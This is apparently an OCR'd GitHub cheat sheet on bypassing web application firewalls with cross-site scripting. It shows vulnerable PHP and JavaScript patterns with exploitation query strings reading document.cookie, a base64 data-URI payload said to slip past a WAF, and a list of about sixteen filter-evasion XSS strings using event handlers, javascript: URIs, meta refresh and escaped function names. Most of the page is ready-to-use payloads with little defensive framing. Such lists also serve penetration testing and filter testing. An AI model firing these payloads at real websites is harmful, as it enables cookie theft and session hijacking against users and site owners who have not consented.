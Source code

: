 ## Methods to Bypass WAF – Cross-Site Scripting

### Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

### Reflected XSS in Javascript

```exmpale
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
```

### DOM-based XSS

```exmpale
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

### XSS via request Redirection

- Vulnerable code:

```exmpale
...
header('Location: '.$_GET['param']);
...
```

As well as:

```exmpale
..
header('Refresh: 0; URL='.$_GET['param']);
...
```

- This request will not pass through the WAF:

`/?param=<javascript:alert(document.cookie>)`

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

`/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

## WAF ByPass Strings for XSS

- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`